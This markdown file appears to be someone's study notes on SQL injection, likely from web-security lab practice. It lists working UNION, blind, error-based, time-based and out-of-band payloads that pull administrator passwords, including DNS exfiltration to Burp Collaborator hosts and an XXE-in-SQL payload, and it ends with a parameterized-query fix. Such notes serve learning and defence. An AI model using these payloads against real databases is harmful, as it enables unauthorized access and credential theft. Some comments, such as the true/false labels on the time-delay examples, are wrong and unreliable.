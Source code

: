 
# SQL Injection (SQLI) Notes

## What is SQL Injection (SQLI)?
- A web security vulnerability that alters the main query sent from an application to the database.
- Allows attackers to access unauthorized data.
- Often occurs in the WHERE clause of SELECT queries.
- Can escalate to compromise the server, such as gaining administrator access.

## Basic SQLI
- Utilizes single quotes (`'`) to probe for anomalous responses.
- Boolean conditions employed: `OR 1=1`, `OR 1=2` (FALSE), `OR 'a' = 'b'` (making it TRUE).

## SQLI UNION Attacks
- Exploits applications vulnerable to SQLI to retrieve data from different tables using `UNION`.
- `UNION` combines the results of two or more SELECT queries.
- Requirements:
  - Both queries must return the same number of columns.
  - Data types must be compatible.
- Techniques for determining the number of columns:
  - Increment the `ORDER BY` clause until an error occurs (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
  - Use `UNION SELECT` with varying numbers of NULLs.

## Oracle SQLI
- The `SELECT` query must include the `FROM` keyword.
- Utilizes the built-in table "dual" (e.g., `' UNION SELECT NULL FROM DUAL--`).
- Combines column values with a delimiter for queries returning single column values (e.g., `' UNION SELECT username || '~' || password FROM users--`).

## MySQL SQLI
- Comments require a space after `--`.
- The `#` character can also denote a comment.
- Identifying columns with useful data types:
  - Use `UNION SELECT` payloads to test for string-type columns.

## Blind SQLI
- Occurs when the application is vulnerable to SQLI but the HTTP response does not contain the query result.
- Allows attackers to infer information based on differing server responses.
- Ineffective with UNION attacks.

## Blind SQLI Query Example
- Cookie TrackingID header in application uses SQL query to trace user data analytics.
-	Example query of Cookie TrackingID:
-	SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
-	It can be exploited through blind SQLI vulnerability.
-	eg of exploit: xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
-	force a true condition and return password where first character is greater than m.
-	possible attacks:use Boolean to determine the true false of the criteria, eg: if the password length is more than x, starts with what alphabet
-	then brute force base on response to get credentials.


## Error-Based SQLI
-	Using error to extract or infer sensitive data.
-	Boolean condition might and might not work.
-	eg: ' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a 
-	eg: '||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-	Can also extract sensitive data through verbose SQL errors when certain data is returned by the query.
-	Using CAST() function to convert data types when conditional responses is prevented.
-	eg: CAST((SELECT example_column FROM example_table) AS int)
-	Example of working Error-Based SQLI that returns the data through error message:
-	' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)—
  -	' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)—


## Time-based SQLI
-	If the database can handle error of the query from error-based SQLI, time-based SQLI can be tested to see the response timing of the time delay.
-	Database type specific queries.
-	eg: '; IF (1=2) WAITFOR DELAY '0:0:10'— (wont trigger time delay as it is true condition)
-	eg: '; IF (1=1) WAITFOR DELAY '0:0:10'--  (trigger time delay as it is false condition)
-	Example of working Time-based SQLI:
-	';SELECT+CASE+WHEN+(username='administrator' AND SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END FROM users--

## OAST SQLI (Out-of-band Application Security Testing)
-	A variation of Blind SQLI.
-	Makes the server to interact with another system under attacker’s control through another protocol (mainly DNS).
-	Uses burp collaborator to detect network interaction.
-	eg:'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—
-	The query ran on Microsoft SQL Server will cause DNS lookup on specific domain (0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net).
-	Example of using UNION and XXE to cause the database to run DNS lookup on collaborator subdomain:
  -	'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual—
-	Example of having SQLI in OAST to leak data:
  -	'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')—
  -	'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—
  -	The leaked data will be within the subdomain name: p4ssword. cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

## Bypassing SQLI Filters
-	Using hackvector extension in burpsuite to encode the payload to dec_entities or hex_entities allows xml WAP bypass.
-	eg: <@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>

## Checking Database version:
-	MySQL: SELECT @@version
-	Oracle: SELECT * FROM v$version
-	PostgreSQL: SELECT version()

## Database Schema:
-	SELECT * FROM information_schema.tables
-	SELECT * FROM information_schema.columns WHERE table_name = 'Users'

## SQLI Prevention:
-	The following code is vulnerable to SQLI due to direct execution of user input by having it directly concatenated into the query
  -	String query = "SELECT * FROM products WHERE category = '"+ input + "'";
  -	Statement statement = connection.createStatement();
  -	ResultSet resultSet = statement.executeQuery(query);
-	To fix the code make the user input to not interfere with the SQL query:
  -	PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
  -	statement.setString(1, input);
  -	ResultSet resultSet = statement.executeQuery();
-	By parameterizing the query, user input can’t affect the main query. Such as:
  -	whitelisting inputs.
  -	using different logic 
  -	hard-coded constant 
  -	not contain any variable data from origin

